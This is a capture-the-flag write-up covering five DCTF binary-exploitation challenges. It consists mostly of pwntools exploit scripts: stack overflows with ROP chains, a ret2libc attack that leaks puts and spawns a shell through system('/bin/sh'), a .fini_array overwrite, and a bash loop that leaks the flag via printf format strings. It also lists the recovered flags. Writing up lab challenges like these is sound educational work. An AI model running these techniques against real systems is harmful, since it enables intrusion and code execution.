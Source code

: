 # ***PWN_SANITY_CHECK***

```py
from pwn import *

binary = context.binary = ELF('./pwn_sanity_check')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))

payload  = b''
payload += b'A' * 72
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi_r15)
payload += p64(0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter('joke\n',payload)
p.interactive()
```
FLAG: ***``dctf{Ju5t_m0v3_0n}``***

# ***PINCH_ME***

```py
from pwn import *

binary = context.binary = ELF('./pinch_me')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

payload  = b''
payload += b'A' * 24
payload += p64(0x1337c0de)

p.sendlineafter('?\n',payload)
p.interactive()
```
FLAG : `***`dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}``***

# ***README***

The vuln function reads flag.txt into a local (local_58) stack array.

The vulnerability is the printf(local_38) statement that is missing a format string. Exfiltrating the flag is as simple as passing %nn$p format strings where nn is the position in the stack; starting from 6 just increment until the output starts with dctf (nn = 8), then continue until you have the flag.

```c
for((p=8;p<14;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    xxd -r -p | \
    rev
}
```

This bash script will echo %8$p, then echo %9$p, etc... into the challenge service serially (one by one), capturing the output (grep, awk), converting to text (xxd), and then finally reversing the string (rev, since x86_64 is little endian).

```
dctf{n0w_g0_r3ad_s0me_b0rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
```
By guessing the last letters as `0k5`.

FLAG : ***```dctf{n0w_g0_r3ad_s0me_b00k5}```***

# ***MAGIC_TRICK***

```py
from pwn import *

binary = context.binary = ELF('./magic_trick')

p = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)

p.sendlineafter('write\n', str(binary.sym.win))
p.sendlineafter('it\n', str(binary.get_section_by_name('.fini_array').header.sh_addr))
print(p.recvuntil('}').decode())
```

FLAG : ***```dctf{1_L1k3_M4G1c}```***

# ***BABY_BOF***

```py
from pwn import *

binary = context.binary = ELF('./baby_bof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

if args.REMOTE:
    p = remote('dctf-chall-baby-bof.westeurope.azurecontainer.io', 7481)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')

puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')
p.interactive()
```
[https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md] (#For more like this)

similiar : [darkctf](#https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop) [downunderctf](#https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what)
